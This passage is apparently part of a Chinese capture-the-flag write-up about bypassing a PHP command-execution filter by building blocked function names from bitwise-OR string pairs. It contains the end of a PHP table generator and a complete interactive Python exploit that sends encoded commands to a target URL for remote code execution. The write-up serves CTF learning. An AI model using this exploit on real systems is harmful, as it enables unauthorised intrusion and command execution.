 ```php
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

大体意思就是`从进行异或的字符中排除掉被过滤的，然后在判断异或得到的字符是否为可见字符`
 传递参数getflag
 用法 `python exp.py <url>`

```python
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")  #没有将php写入环境变量需手动运行
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)
```
